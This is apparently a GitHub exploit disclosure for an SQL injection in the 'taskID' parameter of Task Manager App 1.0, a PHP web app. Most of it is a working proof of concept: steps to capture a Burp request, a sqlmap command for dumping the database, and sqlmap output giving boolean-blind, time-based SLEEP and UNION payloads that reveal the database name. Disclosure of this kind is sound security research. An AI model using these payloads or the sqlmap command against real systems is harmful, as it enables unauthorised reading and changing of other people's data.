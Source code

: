 # Task Manager App - SQL Injection - 2
+ **Exploit Title:** Task Manager App - SQL Injection - 2
+ **Date:** 2024-02-02
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/task-manager-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/97b61777-5089-4b4f-841f-10e10be5859e
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Task Manager App 1.0 allows SQL Injection via the 'taskID' parameter at "/TaskManager/EditTask.php?edit=1&taskID=2". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/TaskManager/"
+ Click on the Tasks button
+ Then click 'Edit' button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /TaskManager/EditTask.php?edit=1&taskID=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```
+ Use sqlmap to exploit. In sqlmap, use 'taskID' parameter to dump the database.
```
sqlmap -r r.txt -p taskID --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: taskID (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: edit=1&taskID=2' AND 1616=(SELECT (CASE WHEN (1616=1616) THEN 1616 ELSE (SELECT 4410 UNION SELECT 6898) END))-- -

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: edit=1&taskID=2' AND (SELECT 9057 FROM (SELECT(SLEEP(5)))MRRF)-- hBYo

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: edit=1&taskID=-1797' UNION ALL SELECT NULL,NULL,CONCAT(0x7171766b71,0x5067554356487a4e6c53506c635469456d476a55477675654555645a58564b58504f687065557666,0x71716b7171),NULL,NULL,NULL-- -
---
[20:54:18] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[20:54:18] [INFO] fetching current database
current database: 'TaskManager'
```
+ current database: `TaskManager`

![Ekran görüntüsü 2024-02-02 045540](https://github.com/BurakSevben/CVEs/assets/117217689/92ebfc97-ba32-48d7-aaab-ec3c02cdfad1)

